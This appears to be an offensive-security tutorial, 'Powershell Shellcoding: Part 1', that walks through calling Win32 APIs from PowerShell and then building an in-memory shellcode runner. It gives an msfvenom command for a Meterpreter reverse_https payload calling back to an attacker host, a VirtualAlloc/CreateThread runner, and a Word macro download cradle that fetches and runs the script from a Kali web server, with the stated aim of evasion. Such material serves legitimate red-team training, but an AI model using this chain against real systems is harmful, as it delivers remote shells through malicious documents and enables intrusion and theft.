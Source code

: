 :orphan:
(powershell-shellcode-part-1)=

# Powershell Shellcoding: Part 1

## Calling Win32 APIs from Powershell

PowerShell cannot interface natively with the Win32 APIs, but the `.NET framework` allows us to use C# in our PowerShell session.
Using the `DllImportAttribute` class, we can import and declare Win32 APIs in C#.
This permits the invocation of functions within unmanaged dynamic link libraries.

We must convert C data types to C# data types. Using *Microsoft's Platform Invocation Services*, sometimes known as *P/Invoke*, we can simply accomplish this. The PInvoke APIs are located within the `System` and `System.Runtime` assemblies. `InteropServices` namespaces must be imported using the term utilizing. The easiest method to get started with `P/Invoke` is via the website [www.pinvoke.net](https://www.pinvoke.net), which details translations of the most prevalent Win32 APIs. Consider the syntax of `MessageBox` from `User32.dll`, as seen below:     


```cpp
int MessageBox(
    HWND hWnd, 
    LPCTSTR lpText, 
    LPCTSTR lpCaption, 
    UINT uType
);
```

Let's create a C# method signature from this. A method signature is a method's unique identifier for the C# compiler. The signature comprises the method's name, the type and kind (value, reference, or output) of each formal argument, and the return type.

To "translate" this, we can either search the [www.pinvoke.net](https://pinvoke.net) website or simply Google for pinvoke User32 messagebox. The first hit leads us to the C# signature for the call:    

![1](powershell-shellcode-part-1/2022-10-24_05-20_1.png)     

In order to use this, we will need to add some code to import the `System` and `System.Runtime.InteropServices` namespaces that include P/Invoke APIs.    

Then, we'll create a C# class (`User32`) that uses `DllImport` to import the `MessageBox` signature. This class permits interaction with the Windows API.      

![1](powershell-shellcode-part-1/2022-10-24_05-20.png)      

Now that we have a C# import and a P/Invoke translation, we must invoke it using the `Add-Type` keyword in PowerShell. By specifying `Add-Type` in PowerShell, the `.NET framework` will be compelled to compile and build an object containing the structures, values, functions, or code included within the `Add-Type` line.     

Put simply, `Add-Type` uses the `.NET framework` to compile the C# code containing Win32 API declarations.    

The complete `Add-Type` statement is:    

![1](powershell-shellcode-part-1/2022-10-24_05-17_1.png)

First, keep in mind that PowerShell employs either a newline or a semicolon to indicate the end of a sentence. The `@` keyword declares *Here-Strings*, which are a straightforward method to declare text blocks.    

In summary, the code first creates a `$User32` variable and sets it to a block of text. Inside that block of text, we set the program to use `System` and `System.Runtime.InteropServices`. Then we import the `MessageBox` API from the `user32` dll, and finally we use `Add-Type` to compile the C# code contained in the `$User32` variable.    

Our code is almost finished. We must now just run the API itself. This is possible through the `User32` .NET object created as shown below. Here, we instruct the application to invoke `MessageBox` and display a dialog box with the text *"This is an alert"*:      

```csharp
[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

At this point, our code looks like this:     

![1](powershell-shellcode-part-1/2022-10-24_05-17.png)     

This code should invoke `MessageBox` from PowerShell. To simulate and test this scenario accurately, we must utilize the `32-bit` version of PowerShell ISE accessible at:     

```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell_ise.exe
```

When the code is executed, a message box is displayed:    

![1](powershell-shellcode-part-1/2022-10-24_02-35.png)    

This illustrates that while PowerShell cannot utilize Win32 APIs natively, `Add-Type` can invoke them via *P/Invoke*. 

## Shellcode runner in Powershell

The concept of running shellcode on PowerShell is not that complicated. As classical shellcode running technique, we already know the three steps to perform. First, we allocate memory space for executable using `VirtualAlloc`. Next, our shellcode is copied to the newly created memory space. Finally, create a thread using `CreateThread`.    

In the C-language or in the VBA code, we can use `RtlMoveMemory` to copy the shellcode, however, we may use the `.NET Copy` function from the `System.Runtime.InteropServices.Marshal` namespace within PowerShell.
This enables the copying of data from a managed array to a non-managed memory reference.    

We will use *P/Invoke* ( from a search on [www.pinvoke.net](https://www.pinvoke.net) ) to translate the `VirtualAlloc` and `CreateThread` parameters, resulting in the following `Add-Type` statement:     

![3](powershell-shellcode-part-1/2022-10-24_05-19.png)      

Note that we assigned a text block to the `$Kernel32` variable using *Here-Strings*. We also added import statements to the `public Kernel32` class so we may compile and refer to it in the future.    

Next we must supply the required shellcode, which we'll again generate with `msfvenom`. This time, we'll use the `ps1` output format:    

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
```

![1](powershell-shellcode-part-1/2022-10-24_02-54.png)    

Now that the shellcode has been constructed, the `$buf` variable may be copied and added to our code. In addition, we will begin configuring the API parameters as seen below.     

![1](powershell-shellcode-part-1/2022-10-24_05-13.png)     

We invoked the imported `VirtualAlloc` call with the same arguments as before. These include a `0` to let the API choose the allocation address, the detected size of the shellcode, and the hexadecimal numbers `0x3000` and `0x40` to set up memory allocation and protections correctly. We used the `.NET Copy` method to copy the shellcode, supplying the managed shellcode array, an offset of `0` indicating the start of the buffer, the unmanaged buffer address, and the shellcode
size. Finally, we called `CreateThread`, supplying the starting address. If we run this code from PowerShell ISE, we get a reverse shell. Nice.   

![123](powershell-shellcode-part-1/2022-10-24_02-59.png)   

Now let's say we need to initiate this from a Word macro. However, we will not embed the PowerShell code directly in VBA. Instead, we will develop a cradle that will run and download our code into memory. Below is the code for the download cradle:     

![1](powershell-shellcode-part-1/2022-10-24_03-40.png)

First, we declared a string variable holding the PowerShell invocation of the `Net.WebClient` class's download cradle. Once the PowerShell script has been downloaded into memory as a string, Invoke-Expression is used to run it (IEX). This complete execution of code is initiated by the `Shell` command.    

Notice that the download cradle references the `run.ps1` in the web root of our Kali machine. To execute our code, we first copy our PowerShell shellcode runner into the run.ps1 file on our Kali Apache or Simple Python web server.    

Next we open Microsoft Word and insert the VBA code into our macro and execute it.    

There is a caveat. However, we don't catch a shell in our `multi/handler`. Let's try to troubleshoot.    

On the Windows side, if we are quick and utilize *Process Explorer*, we may detect that a PowerShell process is being launched and subsequently terminated.    

The explanation behind this is clear. Our shell finishes when the parent `PowerShell` process ends. Our shell is effectively ended before to its initiation.    

To solve this, we must instruct PowerShell to delay termination until our shell fully executes. We'll
use the Win32 `WaitForSingleObject` API to pause the script and allow Meterpreter to finish.   

We'll update our shellcode runner PowerShell script to import `WaitForSingleObject` using *P/Invoke* and `Add-Type` and invoke it as shown:     

![1](powershell-shellcode-part-1/2022-10-24_05-14.png)    

Let's talk about this addition. `CreateThread` provides a handle to the newly formed thread when invoked. We passed this handle along with the time to wait for the thread to complete to `WaitForSingleObject`. In this instance, we've supplied `0xFFFFFFFF`, which instructs the application to wait indefinitely or until we quit the shell. Because PowerShell only supports signed numbers, we have specifically executed a type cast on this value using the `[unit32] static .NET` type to convert it to an unsigned integer.     

Again, we used *Here-Strings* to assign a text block to the `$Kernel32` variable. In our class, three Windows APIs were imported. Then, using `Add-Type`, we compiled the `public Kernel32 class` that was invoked by the APIs. This modification should prevent PowerShell from terminating prematurely. The VBA code may now be re-executed after updating the PowerShell shellcode runner located on our Kali Linux web server. This should result in a Meterpreter shell in reverse.
Quite nice.     

![321](powershell-shellcode-part-1/2022-10-24_03-18.png)    

We can also observe the PowerShell process running as a child process of Word:    

![123](powershell-shellcode-part-1/2022-10-24_03-19.png)    

In this step, we constructed a PowerShell shellcode runner. We downloaded and executed the script from our Kali web server using the VBA code in our Word macro.
This essentially removed our payload from the Word document, making it look as though the code is running entirely in memory, which should help with evasion. 

## References

[VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)     
[CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)    
[WaitForSIngleObject](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)     

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::